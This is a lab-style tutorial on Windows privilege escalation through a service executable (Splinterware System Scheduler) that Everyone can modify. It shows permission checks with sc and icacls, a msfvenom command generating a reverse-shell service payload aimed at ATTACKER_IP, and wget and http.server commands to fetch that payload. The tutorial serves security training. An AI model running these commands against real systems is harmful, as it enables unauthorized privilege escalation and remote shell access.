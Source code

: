 ## Insecure Permissions on Service Executable

   - If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account trivially.

**To understand how this works, let's look at a vulnerability found on Splinterware System Scheduler. To start, we will query the service configuration using `sc`:**
```powershell
C:\> sc qc WindowsScheduler 
[SC] QueryServiceConfig SUCCESS 

SERVICE_NAME: windowsscheduler 
	TYPE : 10 WIN32_OWN_PROCESS 
	START_TYPE : 2 AUTO_START 
	ERROR_CONTROL : 0 IGNORE 
	BINARY_PATH_NAME : C:\PROGRA~2\SYSTEM~1\WService.exe 
	LOAD_ORDER_GROUP : 
	TAG : 0 
	DISPLAY_NAME : System Scheduler Service 
	DEPENDENCIES : 
	SERVICE_START_NAME : .\svcuser1
```
   - We can see that the service installed by the vulnerable software runs as svcuser1 and the executable associated with the service is in `C:\Progra~2\System~1\WService.exe`.

**We then proceed to check the permissions on the executable:**
```powershell
C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M) 
		NT AUTHORITY\SYSTEM:(I)(F) 
		BUILTIN\Administrators:(I)(F) 
		BUILTIN\Users:(I)(RX) 
		APPLICATION PACKAGE AUTHORITY\ALL 
		APPLICATION PACKAGES:(I)(RX) APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX) 
		
Successfully processed 1 files; Failed processing 0 files
```
   - The Everyone group has modify permissions (M) on the service's executable. This means we can simply overwrite it with any payload of our preference, and the service will execute it with the privileges of the configured user account.

**Let's generate an exe-service payload using msfvenom and serve it through a python webserver:**
```sh
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe 

user@attackerpc$ python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

**We can then pull the payload from Powershell with the following command:**
```powershell
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
```
